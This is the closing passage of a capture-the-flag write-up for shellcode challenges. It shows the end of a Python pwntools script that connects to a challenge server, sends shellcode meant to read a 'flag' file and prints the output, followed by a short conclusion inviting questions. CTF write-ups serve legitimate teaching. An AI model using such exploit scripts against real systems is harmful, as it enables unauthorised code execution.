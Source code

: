 ```python
  .string "flag"

""")

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Conclusion

We hope this explanation on how to solve the three challenges was helpful (and not too verbose!). If something is still obscure to you, you can ask a question on the discord server or comment below and we will try to answer in a timely manner.
